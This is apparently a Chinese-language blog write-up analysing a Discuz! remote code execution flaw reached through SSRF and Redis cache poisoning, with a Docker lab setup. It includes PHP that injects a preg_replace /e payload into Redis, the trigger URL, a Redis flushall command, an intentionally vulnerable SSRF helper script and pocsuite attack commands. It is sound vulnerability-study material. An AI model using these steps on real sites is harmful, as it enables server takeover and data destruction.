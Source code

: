 ```yaml
---
title: Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
date: 2016-06-30 10:31:48
tags: [Web,Php,Discuz,Redis,SSRF,RCE]
---
```

jannock发的Discuz有条件远程命令执行,很多大站受影响，网上还没公布细节，在某安全公众号上看到jannock简单的说了一下原理，是ssrf+redis/memcache的问题，一般的站也用不着redis/memcache这种缓解网站压力的应用，所以基本是大站才会受影响.以下是个人对该漏洞的一些学习分析总结

<!-- more -->

## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```php
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```php
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```php
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
getshell使我们破坏了网页缓存的数据，会导致网站访问异常，可在redis-cli中刷新重置数据:
```
flushall
```
## 0x01环境搭建
### 获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```shell
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建议通过[DaoCloud](https://www.daocloud.io/)拉取镜像  

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)  

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
### 运行镜像
Kali(Debian) + Docker(mysql + redis + discuz)
```shell
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装.  

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）.  

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成.  

## 0x02漏洞验证
在/discuz根目录下放置了ssrf_gopher.php用于构造ssrf.内容如下:
```php
<?php
$ch = curl_init();
$url = $_GET['ssrf'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```
验证：
```shell
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --verify
```
攻击：
```shell
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --attack
```
## 0x03参考
* [pocsuite](http://pocsuite.org/)
* [PoC编写规范及要求说明](https://github.com/knownsec/Pocsuite/blob/master/docs/CODING.md)
* [Seebug/ssvid-91879](https://www.seebug.org/vuldb/ssvid-91879)
* [imp0wd3r](https://github.com/imp0wd3r)
* [C1tas](https://github.com/C1tas)
* [漏洞检测的那些事儿](http://drops.wooyun.org/tips/16431)
